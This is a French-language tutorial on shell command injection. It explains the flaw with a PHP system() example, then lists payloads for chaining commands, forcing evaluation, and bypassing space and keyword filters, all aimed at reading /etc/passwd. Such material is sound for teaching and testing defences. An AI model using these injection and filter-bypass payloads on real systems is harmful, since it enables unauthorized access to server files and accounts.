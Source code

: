 <!--- id: intro --->
<!--- category: cmdinjection --->
# Injection de commandes Shell

L'injection de commande Shell est possible quand un programme utilise une donnée, entrée par l'utilisateur, sans la filtrer, comme argument d'une commande shell.

Par exemple: un formulaire permet de saisir son nom et l'afficher.
Le code coté serveur va ressembler à: system ('echo '.$NAME);
Si nous saisissons: YOLO; cat /etc/password;
Le serveur va enchainer les deux commandes en executant system ('echo YOLO; cat /etc/password;'); et nous permettre de récupérer le contenu du fichier passwd.

<!--- id: CommandPrinciple --->
<!--- category: cmdinjection --->
<!--- keywords:  --->
## Command Injection: Principe

L'injection de commande Shell est possible quand un programme utilise une donnée, entrée par l'utilisateur, sans la filtrer, comme argument d'une commande shell.

Par exemple: un formulaire permet de saisir son nom et l'afficher.
Le code coté serveur va ressembler à: 
```` system ('echo '.$NAME);
````
Si nous saisissons: 
````YOLO; cat /etc/password;
````
Le serveur va enchainer les deux commandes en executant:
<pre><code>system ('echo YOLO; cat /etc/password;'); 
</code></pre> 
Nous allons récupérer le contenu du fichier passwd.

Avec une injection de commande nous avons la main sur le serveur.
Nous pouvons récupérer des informations sur le serveur (uname -a), recupérer des noms de comptes (cat /etc/passwd), récupérer les fichiers de config du serveur web, lancer un reverse shell...

<!--- id: CommandChainUx --->
<!--- category: cmdinjection --->
<!--- keywords:  --->
## Unix: Enchainer deux commandes shell

Utiliser les séparateurs de commandes ; && | ||
<pre><code>echo YOLO; cat /etc/passwd
echo YOLO && cat /etc/passwd
echo YOLO | cat /etc/passwd
echo YOLO || cat /etc/passwd    Seulement si la première commande est en echec
</code></pre> 

<!--- id: CommandEvalUx --->
<!--- category: cmdinjection --->
<!--- keywords:  --->
## Unix: Force command execution in a string

Il est possible de forcer l'execution d'une commande avec ` $ et {
<pre><code>echo `cat /etc/passwd`
echo $(cat /etc/passwd)
echo {cat,/etc/passwd}
</code></pre> 

<!--- id: CommandSpaceFilteres --->
<!--- category: cmdinjection --->
<!--- keywords:  --->
## Bypass: Les espaces sont filtrés

Les développeurs peuvent avoir mis des filtres pour empécher l'execution de commande. Par exemple retirer les espaces. Néanmoins, même sans espaces, il est toujours possible de lancer lancer des commandes:
<pre><code>cat&lt;/etc/passwd
{cat,/etc/passwd}
X=$'cat\x20/etc/passwd'&&$X
</code></pre> 

<!--- id: CommandBlacklist --->
<!--- category: cmdinjection --->
<!--- keywords:  --->
## Bypass: Certains mot clefs sont filtrés

Si un filtre recherche une liste de commandes, il est toujours possible de le contourner: simple quote, double quote, backslash et slash
<pre><code>c'a't /etc/passwd
cat /etc/passwd
c\at /etc/passwd
who``ami
</code></pre> 
Et si un nom de fichier est filtré, il est possible de multiplier les /
Filtre sur cat et /etc/passwd
<pre><code>c\at /etc////////passwd
</code></pre> 

